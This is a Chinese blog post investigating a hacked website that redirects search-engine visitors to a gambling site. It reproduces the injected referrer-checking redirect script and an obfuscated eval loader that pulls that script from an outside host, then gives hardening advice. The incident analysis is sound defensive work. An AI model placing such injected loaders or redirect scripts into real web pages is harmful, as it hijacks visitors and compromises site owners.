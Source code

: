 ```yaml
---
layout: post
title:  "记一次站点被挂马问题排查"
date:   2018-06-08 15:14:54
categories: 安全
tags: 挂马 篡改
---
```


* content
{:toc}

---
起因，在下班准备回家之际，收到几条朋友发来的信息，说他的网站在百度搜索做信息流广告推广，但是从百度搜索点击打开就会跳转的博彩网站，让我帮忙排查下问题，是不是被挂马了，于是乎就开始了后面的故事

---
> 为了保护网站隐私，假定网站地址是：http://www.xxx.com

收到消息后我尝试操作并收集到下面现象内容：

现象1：通过域名直接打开网站，可以正常打开，不会跳转到博彩站    
现象2：通过百度/搜狗搜索引擎，搜索到网站后点击打开就会跳转到博彩站

---











#### 开始排查 

* **网站是怎么跳转的？** 

网站跳转无非就是这两种：服务端重定向跳转/前端JS触发跳转，我开始用Charles抓包，列出抓包请求发起顺序大概是这样的（省略无关的请求）：

1. http://www.xxx.com
2. https://www.cpdas8.com/cxc.js
3. https://www.das8cx.com/ [博彩站]

先打开站点www.xxx.com返回Code=200，不是服务端重定向Code=302，是由前端发起跳转，并且注意到：cxc.js，请求头Referer=www.xxx.com，这个并非站点前端开发需要引入的脚本，打开地址看代码如下：


```javascript

(function () {
    /*百度推送代码*/
     var bp = document.createElement('script');
     bp.src = '//push.zhanzhang.baidu.com/push.js';
     var s = document.getElementsByTagName("script")[0];
     s.parentNode.insertBefore(bp, s);
     /*360推送代码*/
     var src = document.location.protocol + '//js.passport.qihucdn.com/11.0.1.js?8113138f123429f4e46184e7146e43d9';
     document.write('<script src="' + src + '" id="sozz"><\/script>');
     })();

document.writeln("<script LANGUAGE=\"Javascript\">");
document.writeln("var s=document.referrer");
document.writeln("if(s.indexOf(\"baidu\")>0 || s.indexOf(\"sogou\")>0 || s.indexOf(\"soso\")>0 ||s.indexOf(\"sm\")>0 ||s.indexOf(\"uc\")>0 ||s.indexOf(\"bing\")>0 ||s.indexOf(\"yahoo\")>0 ||s.indexOf(\"so\")>0 )");
document.writeln("location.href=\"https://www.das8cx.com/\";");
document.writeln("</script>");

```

看代码就知道抓到了元凶，这里执行了location.href到博彩站，但是看主页html源码里并没有cxc.js的引入，继续后面的排查

---

* **cxc.js是如何在主页里引入的？**

带着这个疑问，打开了首页源码，大概过了下，没有发现引入脚本的地方，就开始怀疑是不是动态引入的，再次查看源码，看到一段被混淆加密压缩过代码：
```javascript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('l["\\d\\e\\1\\m\\j\\8\\n\\0"]["\\6\\4\\9\\0\\8"](\'\\i\\2\\1\\4\\9\\3\\0 \\0\\k\\3\\8\\c\\7\\0\\8\\h\\0\\5\\f\\b\\q\\b\\2\\1\\4\\9\\3\\0\\7 \\2\\4\\1\\c\\7\\o\\0\\0\\3\\2\\p\\5\\5\\6\\6\\6\\a\\1\\3\\d\\b\\2\\r\\a\\1\\e\\j\\5\\1\\h\\1\\a\\f\\2\\7\\g\\i\\5\\2\\1\\4\\9\\3\\0\\g\');',28,28,'x74|x63|x73|x70|x72|x2f|x77|x22|x65|x69|x2e|x61|x3d|x64|x6f|x6a|x3e|x78|x3c|x6d|x79|window|x75|x6e|x68|x3a|x76|x38'.split('|'),0,{}))
```
感觉事蹊跷，不管三七二十一先到谷歌开发者工具控制台里执行看看，截取重要提示信息：
```
A parser-blocking, cross site (i.e. different eTLD+1) script,https://www.cpdas8.com/cxc.js, is invoked via document.write

```
![image](/images/mm_tz.png)

明了了，就是这段脚本把cxc.js动态的引入到站点里，现在跳转的原因是找到了，但是为啥会好端端的多了这段代码，继续后面的分析

---

* **为什么主页源码会被篡改加入了一段脚本呢？**

站点是通过阿里云服务器的虚拟空间进行部署的，服务器本身应该没有问题
目前猜测有两种可能性：
1. FTP暴力破解，成功连接上FTP后进行篡改
2. 站点安全漏洞，被上传了木马程序后被执行，篡改了源码

后面问了下FTP密码是设置的挺简单的，所以评估可能是FTP暴力破解导致，细思极恐

---
番外，里面还有段篡改SEO关键词代码，这里也需要去掉：   
篡改了keyword/description/title
![image](/images/mm_seo.png?v=666)

---

#### 问题总结：

通过抓包和代码分析可以知道跳转到博彩站的流程是这样的：
1. 打开首页，脚本执行了evel(混淆加密压缩)，动态引入cxc.js
2. 引入的cxc.js里执行了(function (){/* 跳转逻辑 */})()，如果站点referrer是搜索引擎过来的就跳转到博彩站，不是就不做跳转直接正常打开站点
3. 知道原理后就很清晰明白上面现象的原因，并且可以很清楚的怎么去修复

站点源码被侵入篡改问题：

* 站点的开发需要注意WEB安全问题，文件上传漏洞，脚本注入，SQL注入，跨站攻击，等
* 站点的服务器/FTP/后台账号密码，不要设置的太随意，要有一定的复杂度，不然很容易被暴力破解

---
辅助手段-网站安全检测：
* [华为漏洞扫描服务](https://www.huaweicloud.com/product/vss.html)
* [360网站安全](http://webscan.360.cn/)
* [百度网站体检](https://ziyuan.baidu.com/safe/)
* [百度云观测](http://ce.baidu.com/index/guance)


---
> 发布时间：2018-06-08